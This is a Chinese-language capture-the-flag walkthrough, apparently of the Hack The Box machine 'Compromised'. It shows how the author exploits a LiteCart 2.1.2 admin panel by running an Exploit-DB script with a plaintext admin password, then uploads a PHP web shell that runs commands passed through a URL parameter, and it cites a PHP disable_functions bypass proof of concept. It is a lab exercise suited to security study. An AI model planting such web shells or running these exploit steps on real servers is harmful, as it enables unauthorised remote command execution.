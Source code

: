 ## 立足点

在我们从备份代码中分析得到的管理员后台登陆

`http://10.10.10.207/shop/admin/login.php`

![]({{ site.url }}/assets/Compromised_207.assets/20201118090324692_406413240.png)

LiteCart 2.1.2

`https://www.exploit-db.com/exploits/45267`

按漏洞利用代码的说明`admin/vqmods.app/vqmods.inc.php`允许远程上传`text/xml`或`application/xml`的恶意代码并在`public_html/admin/?app=vqmods&doc=vqmods`获得执行

![]({{ site.url }}/assets/Compromised_207.assets/20201118091034372_1589327220.png)

`python 45267.py -t http://10.10.10.207/shop/admin/ -u 'admin' -p 'theNextGenSt0r3!~'`

![]({{ site.url }}/assets/Compromised_207.assets/20201118091400293_1420985154.png)

没有得到shell

尝试手动利用

`http://10.10.10.207/shop/admin/?app=vqmods&doc=vqmods`

![]({{ site.url }}/assets/Compromised_207.assets/20201118092229700_331844991.png)

```php
<?php
phpinfo();
if($_GET['cmd']) {
  system($_GET['cmd']);
  };
?>
```
抓包修改上传

![]({{ site.url }}/assets/Compromised_207.assets/20201118093901537_303732478.png)

`http://10.10.10.207/shop/vqmod/xml/php_info.php?cmd=id`

![]({{ site.url }}/assets/Compromised_207.assets/20201118094020861_263128827.png)

上传成功了，但是命令不能被执行

![]({{ site.url }}/assets/Compromised_207.assets/20201118094516713_737366216.png)

经过了搜索，存在一个7.3以下的绕过

`https://packetstormsecurity.com/files/154728/PHP-7.3-disable_functions-Bypass.html`

```php
<?php

# PHP 7.0-7.3 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=72530
#
# This exploit should work on all PHP 7.0-7.3 versions
# released as of 04/10/2019, specifically:
# 
# PHP 7.0 - 7.0.33
# PHP 7.1 - 7.1.31
# PHP 7.2 - 7.2.23
# PHP 7.3 - 7.3.10
#
# Author: https://github.com/mm0r1
```
